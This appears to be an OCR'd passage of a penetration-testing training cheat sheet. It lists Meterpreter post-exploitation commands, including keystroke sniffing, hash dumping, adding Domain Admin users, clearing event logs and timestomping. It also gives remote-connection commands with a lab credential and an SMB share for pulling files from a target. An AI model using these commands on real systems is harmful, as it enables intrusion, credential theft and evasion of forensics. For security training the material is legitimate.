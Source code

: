 | `setdesktop <number>`                                     | Switch to a different screen based on who is logged in.      |
| `screenshot`                                                | Take a screenshot of the target’s screen.                    |
| `upload <filename>`                                       | Upload a file to the target.                                 |
| `download <filename>`                                     | Download a file from the target.                             |
| `keyscan_start`                                             | Start sniffing keystrokes on the remote target.              |
| `keyscan_dump`                                              | Dump the remote keys captured on the target.                 |
| `keyscan_stop`                                              | Stop sniffing keystrokes on the remote target.               |
| `getprivs`                                                  | Get as many privileges as possible on the target.            |
| `uictl enable <keyboard/mouse>`                           | Take control of the keyboard and/or mouse.                   |
| `background`                                                | Run your current Meterpreter shell in the background.        |
| `hashdump`                                                  | Dump all hashes on the target. use sniffer Load the sniffer module. |
| `sniffer_interfaces`                                        | List the available interfaces on the target.                 |
| `sniffer_dump <interfaceID> pcapname`                     | Start sniffing on the remote target.                         |
| `sniffer_start <interfaceID> packet-buffer`               | Start sniffing with a specific range for a packet buffer.    |
| `sniffer_stats <interfaceID>`                             | Grab statistical information from the interface you are sniffing. |
| `sniffer_stop <interfaceID>`                              | Stop the sniffer.                                            |
| `add_user <username> <password> -h <ip>`              | Add a user on the remote target.                             |
| `add_group_user <"Domain Admins"> <username> -h <ip>` | Add a username to the Domain Administrators group on the remote target. |
| `clearev`                                                   | Clear the event log on the target machine.                   |
| `timestomp`                                                 | Change file attributes, such as creation date (antiforensics measure). |
| `reboot`                                                    | Reboot the target machine.                                   |

---

# Password Attacks

### Connecting to Target

| **Command**| **Description**|
|-|-|
| `xfreerdp /v:<ip> /u:htb-student /p:HTB_@cademy_stdnt!` | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol. |
| `evil-winrm -i <ip> -u user -p password`            | Uses Evil-WinRM to establish a Powershell session with a target. |
| `ssh user@<ip>`                                     | Uses SSH to connect to a target using a specified user.      |
| `smbclient -U user \\\\<ip>\\SHARENAME`             | Uses smbclient to connect to an SMB share using a specified user. |
| `python3 smbserver.py -smb2support CompData /home/<nameofuser>/Documents/` | Uses smbserver.py to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host. |
